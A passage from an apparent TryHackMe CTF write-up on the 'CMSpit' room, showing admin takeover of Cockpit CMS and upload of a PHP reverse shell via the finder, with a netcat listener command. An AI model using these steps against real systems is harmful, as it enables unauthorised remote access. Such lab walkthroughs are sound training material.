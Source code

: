 ```highlight
msf6 exploit(multi/http/cockpit_cms_rce) > 
```

The exploit failed again however it was able to change the admin password. I went back to the login page and was able to log in as admin.

![loggedin](/assets/images/cmspit/loggedin.png)

### Initial Access

In the blog post, RCE was possible by uploading a PHP script via the finder directory so I went to cmspit.thm/finder

I copied a PHP reverse shell script to my directory.

```highlight
└──╼ $cp /usr/share/webshells/php/php-reverse-shell.php .
┌─[daz@parrot]─[~/Documents/TryHackMe/CMSpit]
└──╼ $mv php-reverse-shell.php shell.php
┌─[daz@parrot]─[~/Documents/TryHackMe/CMSpit]
```

I updated the script with my tun0 IP and port of 4444 and started a nc listener with the command ``` nc -nvlp 4444```. On the webpage I clicked the upload button and selected my shell.php file.

Now going to 'http://cmspit.thm/shell.php' I get a shell!
